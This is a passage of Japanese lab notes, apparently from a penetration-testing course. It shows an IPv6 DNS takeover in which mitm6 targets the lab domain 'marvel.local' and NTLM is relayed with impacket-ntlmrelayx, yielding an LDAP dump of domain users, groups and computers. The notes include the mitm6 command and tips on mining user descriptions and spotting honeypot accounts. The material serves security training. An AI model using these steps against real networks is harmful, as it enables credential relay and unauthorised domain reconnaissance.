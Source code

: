 
次に、mitm6の実行する
- `-d` :  ドメインを指定する必要がある
- `-i` : インターフェースの指定
```sh
sudo mitm6 -d marvel.local -i eth1
```

これを立てておくと、ネットワーク上でイベントが発生した時
- マシンの再起動
- 誰かがデバイスへログイン
そのイベントを取得、NTLMリレーを通じてドメインコントローラーにリレーできる

### 再起動イベント
実際に再起動する
![](https://i.imgur.com/pvrLS9P.png)


すると、impacket-ntlmrelayxの方にこんな感じのログが出てくる
![](https://i.imgur.com/IwQf0ja.png)

これを確認した後、Kaliのホームフォルダにlootmeというフォルダができていることがわかる
```sh
┌──(kali㉿kali)-[~]
└─$ ls
192.168.56.103_samhashes.sam  arp.cache  Desktop  Documents  Downloads  hash.txt  lootme  Music  Pictures  Public  targets.txt  Templates  Videos
```

中を覗いてみると、LDAPドメインダンプがあることがわかる
```sh
┌──(kali㉿kali)-[~/lootme]
└─$ ls
domain_computers_by_os.html  domain_computers.json  domain_groups.json  domain_policy.json  domain_trusts.json          domain_users.html
domain_computers.grep        domain_groups.grep     domain_policy.grep  domain_trusts.grep  domain_users_by_group.html  domain_users.json
domain_computers.html        domain_groups.html     domain_policy.html  domain_trusts.html  domain_users.grep
```

実際に、domain_computers.htmlを開くと、ネット内のコンピューターの情報がまとまっている
![](https://i.imgur.com/7gB9bQL.png)

ドメイングループも同様にみることができる
![](https://i.imgur.com/vELXOj3.png)

ドメインユーザーも見ることができて、ここにはdescriptionも載っているので、ここから初期アクセスできる可能性もある
![](https://i.imgur.com/KiHxTBg.png)

最後にいつログインされてかもわかる
- 意外と重要な情報で、これらはハニーポットアカウントである可能性もある
- 真っ先に除外できる
![](https://i.imgur.com/w93z9fB.png)
